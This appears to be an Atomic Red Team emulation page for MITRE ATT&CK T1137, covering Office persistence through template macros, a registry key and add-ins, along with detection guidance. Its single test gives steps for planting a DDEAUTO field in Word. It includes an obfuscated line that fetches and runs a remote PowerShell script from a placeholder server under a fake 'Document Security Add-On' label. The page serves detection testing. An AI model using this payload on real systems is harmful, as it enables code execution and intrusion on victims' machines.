 # T1137 - Office Application Startup
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1137)
<blockquote>Microsoft Office is a fairly common application suite on Windows-based operating systems within an enterprise network. There are multiple mechanisms that can be used with Office for persistence when an Office-based application is started.

===Office Template Macros===

Microsoft Office contains templates that are part of common Office applications and are used to customize styles. The base templates within the application are used each time an application starts. (Citation: Microsoft Change Normal Template)

Office Visual Basic for Applications (VBA) macros (Citation: MSDN VBA in Office) can inserted into the base templated and used to execute code when the respective Office application starts in order to obtain persistence. Examples for both Word and Excel have been discovered and published. By default, Word has a Normal.dotm template created that can be modified to include a malicious macro. Excel does not have a template file created by default, but one can be added that will automatically be loaded. (Citation: enigma0x3 normal.dotm) (Citation: Hexacorn Office Template Macros)

Word Normal.dotm location:<code>C:\Users\(username)\AppData\Roaming\Microsoft\Templates\Normal.dotm</code>

Excel Personal.xlsb location:<code>C:\Users\(username)\AppData\Roaming\Microsoft\Excel\XLSTART\PERSONAL.XLSB</code>

An adversary may need to enable macros to execute unrestricted depending on the system or enterprise security policy on use of macros.

===Office Test===

A Registry location was found that when a DLL reference was placed within it the corresponding DLL pointed to by the binary path would be executed every time an Office application is started (Citation: Hexacorn Office Test)

<code>HKEY_CURRENT_USER\Software\Microsoft\Office test\Special\Perf</code>

===Add-ins===

Office add-ins can be used to add functionality to Office programs. (Citation: Microsoft Office Add-ins)

Add-ins can also be used to obtain persistence because they can be set to execute code when an Office application starts. There are different types of add-ins that can be used by the various Office products; including Word/Excel add-in Libraries (WLL/XLL), VBA add-ins, Office Component Object Model (COM) add-ins, automation add-ins, VBA Editor (VBE), and Visual Studio Tools for Office (VSTO) add-ins. (Citation: MRWLabs Office Persistence Add-ins)

Detection: Many Office-related persistence mechanisms require changes to the Registry and for binaries, files, or scripts to be written to disk or existing files modified to include malicious scripts. Collect events related to Registry key creation and modification for keys that could be used for Office-based persistence. Modification to base templated, like Normal.dotm, should also be investigated since the base templates should likely not contain VBA macros. Changes to the Office macro security settings should also be investigated.

Monitor and validate the Office trusted locations on the file system and audit the Registry entries relevant for enabling add-ins. (Citation: MRWLabs Office Persistence Add-ins)

Non-standard process execution trees may also indicate suspicious or malicious behavior. Collect process execution information including process IDs (PID) and parent process IDs (PPID) and look for abnormal chains of activity resulting from Office processes. If winword.exe is the parent process for suspicious processes and activity relating to other adversarial techniques, then it could indicate that the application was used maliciously.

Platforms: Windows

Data Sources: Process monitoring, Process command-line parameters, Windows Registry, File monitoring

Permissions Required: User, Administrator

System Requirements: Office Test technique: Office 2007, 2010, 2013, 2015 and 2016
Add-ins: some require administrator permissions

Contributors: Ricardo Dias, Loic Jaquemet</blockquote>

## Atomic Tests

- [Atomic Test #1 - DDEAUTO](#atomic-test-1---ddeauto)


<br/>

## Atomic Test #1 - DDEAUTO

TrustedSec - Unicorn - https://github.com/trustedsec/unicorn

SensePost DDEAUTO - https://sensepost.com/blog/2017/macro-less-code-exec-in-msword/

Word VBA Macro

[Dragon's Tail](https://github.com/redcanaryco/atomic-red-team/tree/master/ARTifacts/Adversary/Dragons_Tail)

**Supported Platforms:** Windows


#### Run it with these steps!
1. Open Word

2. Insert tab -> Quick Parts -> Field

3. Choose = (Formula) and click ok.

4. Once the field is inserted, you should now see "!Unexpected End of Formula"

5. Right-click the Field, choose "Toggle Field Codes"

6. Paste in the code from Unicorn or SensePost

7. Save the Word document.

9. DDEAUTO c:\\windows\\system32\\cmd.exe "/k calc.exe"

10. DDEAUTO "C:\\Programs\\Microsoft\\Office\\MSWord\\..\\..\\..\\..\\windows\\system32\\{ QUOTE 87 105 110 100 111 119 115 80 111 119 101 114 83 104 101 108 108 }\\v1.0\\{ QUOTE 112 111 119 101 114 115 104 101 108 108 46 101 120 101 } -w 1 -nop { QUOTE 105 101 120 }(New-Object System.Net.WebClient).DownloadString('http://<server>/download.ps1'); # " "Microsoft Document Security Add-On"


<br/>
